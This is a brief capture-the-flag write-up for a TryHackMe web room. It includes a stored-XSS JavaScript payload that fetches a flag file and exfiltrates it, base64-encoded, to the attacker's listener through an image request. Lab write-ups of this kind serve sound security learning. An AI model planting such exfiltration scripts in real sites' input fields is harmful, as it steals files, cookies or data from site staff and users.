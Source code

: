 URL: https://tryhackme.com/room/thestickershop

```
Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

Can you read the flag at http://10.10.195.218:8080/flag.txt?
```

Using the updog server in python and the following script. I was able to retrieve the flag
```javascript
<script>

fetch('/flag.txt')

.then(res => res.text())

.then(data => {

new Image().src = 'http://$ATTACKBOXIP:9090/log?data=' + btoa(data);

});

</script>
```

Initially I was fetching the flag via the full url `http://10.10.195.218:8080/flag.txt`
after some trial and error I realized they be accessing the server via a different ip (internal to their network) or even from the server its self via localhost or 127.0.0.1 once I updated the script to just retrieve `/flag.txt` I got a hit and received the b64 encoded payload

![[Screenshot From 2025-04-24 01-13-36.png]]